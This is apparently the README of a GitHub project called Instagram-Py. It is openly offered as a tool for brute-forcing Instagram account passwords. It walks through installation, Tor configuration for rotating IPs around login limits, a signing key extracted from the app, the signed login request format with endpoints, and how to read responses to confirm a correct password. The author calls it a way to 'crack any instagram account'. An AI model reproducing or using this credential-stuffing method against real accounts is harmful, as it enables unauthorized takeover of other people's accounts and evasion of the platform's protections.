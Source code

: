 ==============
 Instagram-Py 
==============

    | Instagram-py performs slick brute force attack on Instagram without any type of password limiting
    | and also resumes your attack in ease. 
    
    --DeathSec


.. image:: https://img.shields.io/github/issues/deathsec/instagram-py.svg?style=flat-square   
      :target: https://github.com/deathsec/instagram-py/issues

.. image:: https://img.shields.io/github/forks/deathsec/instagram-py.svg?style=flat-square   
      :target: https://github.com/deathsec/instagram-py/network
      
.. image:: https://img.shields.io/github/stars/deathsec/instagram-py.svg?style=flat-square
      :target: https://github.com/deathsec/instagram-py/stargazers

.. image:: https://img.shields.io/badge/license-MIT-blue.svg?style=flat-square   
      :target: https://raw.githubusercontent.com/deathsec/instagram-py/master/LICENSE

.. image:: https://img.shields.io/pypi/v/instagram-py.svg?style=flat-square
      :target: #



  
.. image:: https://raw.githubusercontent.com/deathsec/instagram-py/v1.x.x/preview.gif

.. image:: http://forthebadge.com/images/badges/built-with-love.svg
      :target: #
.. image:: http://forthebadge.com/images/badges/60-percent-of-the-time-works-every-time.svg
      :target: #
      
.. image:: http://forthebadge.com/images/badges/made-with-python.svg
      :target: #
      

      
-------
 Why?
-------

| **I Actually** started this **project** for **proof of concept** that we can brute force **Instagram** forever.
| When I created the prototype and posted on **Twitter** , I got a **lot of people** who wanted a simple slick tool to execute 
| brute force attack on **Instagram** , So I thought why reinvent the wheel?....
| So I searched **Github** and found nothing worth value , some were fake or poorly engineered!
| And here it is **a Authentic brute force tool for Instagram**


------
 How?
------

| We use , **tor** to change our ip once blocked for many tries and continue attack.
| Since the official api is not a hacker wants, So we use the **InstagramAPK signature** to stay **anonymous!**
| And we also **save** the **progress** so that even in network interuption we can avoid breaking the computer!

 **See the 'Algorimthm' section down below for more hackery!**

-------
 What?
-------

| **Instagram-Py** is a simple python script to perform basic **brute force** attack against **Instagram** ,   
| this script can **bypass** login limiting on wrong passwords ,  so basically it can test **infinite number of passwords**.
| Instagram-Py is **proved** and can test **over 6M** passwords on a single instagram account with **less resource** as possible
| This script mimics the activities of the official **instagram android app** and sends request over **tor** so you are secure ,
| but if your **tor** installation is **misconfigured** then the blame is on you.



**Depends on**: python3 , tor ,  requests , requests[socks] , stem

==============
 Installation
==============

-------------------------------
 using pip to get Instagram-py
-------------------------------

**Make sure you have got the latest version of pip(>= 9.0 and python(>= 3.6)**

::

 $ sudo easy_install3 -U pip # you have to install python3-setuptools , update pip
 $ sudo pip3 install requests --upgrade
 $ sudo pip3 install requests[socks]
 $ sudo pip3 install stem
 $ sudo pip3 install instagram-py
 $ instagram-py # installed successfully
 $ # Now lets copy the config file to your hard drive!
 $ wget -O ~/instapy-config.json "https://git.io/v5DGy"

--------------------------------
    Configuring Instagram-Py
--------------------------------

Open your configuration file found in your home directory , this file is **very important**
located at **~/instapy-config.json** , do not change anything except tor configuration

::

 $ vim ~/instapy-config.json # open it with your favorite text editior!

**The configuration file looks like this**

::

 {
  "api-url" : "https://i.instagram.com/api/v1/",
  "user-agent" : "Instagram 10.26.0 Android (18/4.3; 320dp..... ",
  "ig-sig-key" : "4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178",
  "ig-sig-version" : "4",
  "tor" : { 
     "server" : "127.0.0.1",
     "port" : "9050",
     "protocol" : "socks5",
     "control" : {
           "password" : "",
           "port" : "9051"
       }
   }
    
 }


**api-url** : do not change this unless you know what you are doing

**user-agent** : do not change this unless you know your stuff

**ig-sig_key** : never change this unless new release, this is extracted from the instagram apk file

**tor** : change everything according to your tor server configuration , do not mess up!

--------------------------------------------------
    Configuring Tor server to open control port
--------------------------------------------------

open your **tor configuration** file usually located at **/etc/tor/torrc**


::
 
 $ sudo vim /etc/tor/torrc # open it with your text editor
 

**search** for the file for this **specific section**

::

 ## The port on which Tor will listen for local connections from Tor
 ## controller applications, as documented in control-spec.txt.
 #ControlPort 9051
 
**uncomment** 'ControlPort' by deleting the **#** before 'ControlPort' , **now save the file and restart your tor server**

**now you are ready to crack any instagram account , make sure your tor configuration matched ~/instapy-config.json** 

=============
    Usage
=============

**Finally** , now you can use instagram-py!

::

 $ instagram-py your_account_username path_to_password_list


===========
 Algorithm
===========

**Instagram-Py** uses a very simple algorimthm for checking passwords efficiently , this section is dedicated for those who
wish to recreate this program in any other language.

-------------
 What we do
-------------

**Step 1:** Get the magic cookie , which is used to verify device integrity!

Getting the magic cookie is the simplest job , all we need to do is send a get request to **https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=** , where the **guid** get parameter is a random 32 character string.
The random 32 character string can be generator using python's simple **uuid library** , to be specific **v4** of **UUID**.
So finally we just have to request the url **https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=800e88b931bf491fa3b4a7afa4e679eb** and get the cookie named **csrftoken** , if we observe the **response header** we
could see that our cookie only **expires** next **year** the same day. So by this we only have to make this request once
and can use it for a year! How vulnerable is that?... 

.. image:: https://raw.githubusercontent.com/deathsec/instagram-py/master/observations/cookies.png 
      :target: #


**Step 2:** Build a post request with Instagram's signature.

This part is **simple** but may be difficult to setup , first i need to get instagram's signature
which is only present in their free apk from google play , Remember our **Strength can be our Weakness**
, All i have to do reverse engineer the apk and find the signature, lets call it **ig_sig**.

::
 
 ig_sig = 4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178
 ig_version = 4

**Instagram** uses **HMAC Authentication** for login stuff, so lets use python's **hmac library**.
But first we have to build our body which will be encoded in json for it to actually sign with 
**ig_sig** , So the post **body** looks likes this...


::
 
 phone_id   = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS>
 _csrftoken = <THE MAGIC COOKIE THAT WE GOT!>
 username   = <TARGET ACCOUNT>
 guid       = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS>
 device_id  = android-<RANDOM 16 CHARACTER STRING>
 password   = <PASSWORD TO TRY>
 login_attempt_count = 0


The above will be encoded to **JSON** , So to test the password we have to post the data to this url
**https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=<SIGNED BODY>.<URL ENCODED JSON DATA>** .

**<SIGNED BODY>:** using **HMAC** , sign our json encoded data with **ig_sig** and return a hexa value.

**<URL ENCODED JSON DATA>:** the same data in json but we url encode so that it goes properly to insta!

So to test a account with username as **USERNAME** and password with **PASSWORD** we simply request this
url **https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=bc90e1b7d430f39152e92b4e7d517bfb231dbe0515ed2071dc784cf876e301c3.%7B%22phone_id%22%3A%20%2232abb45c-f605-4fd7-9b5e-674115516b90%22%2C%20%22_csrftoken%22%3A%20%22PyMH2niVQrk41UIBW0lKilleG7GylluQ%22%2C%20%22username%22%3A%20%22USERNAME%22%2C%20%22guid%22%3A%20%2267ca220c-a9eb-4240-b173-2d253808904d%22%2C%20%22device_id%22%3A%20%22android-283abce46cb0a0bcef4%22%2C%20%22password%22%3A%20%22PASSWORD%22%2C%20%22login_attempt_count%22%3A%20%220%22%7D** 

**Take a look** how I did it... 

.. image:: https://raw.githubusercontent.com/deathsec/instagram-py/master/observations/login_create.png


**Step 3:** With the json response and response code , we determine the password is correct or wrong.

if **We get response 200** then the login is success but if we get **response 400** , We inspect the
**json data** for clues if it is the **correct password or invalid request or too many tries**.
So we inspect the **message** from instagram json response!

**Message = Challenge Required** , then the password is correct but instagram got some questions so
we must wait until the user logs in and answer the question and if we are lucky they will not change
the password and we could login in later(**Most of the time people won't change the password!**)

**Message = The password you entered is incorrect.** , then the password is incorrect for sure , try
another.

**Message as something like word invalid in it then** , some other error so just try again, can happen
because of wordlist encoding error which i ignored because all the worldlist have encoding error!

**Message = Too many tries** , Time to change our ip and loop but we don't want to change our magic cookie

**Thats it you just hacked instagram with a very simple algorithm!**

=============
   License
=============

The MIT License,

Copyright (C) 2017 The Future Shell , DeathSec
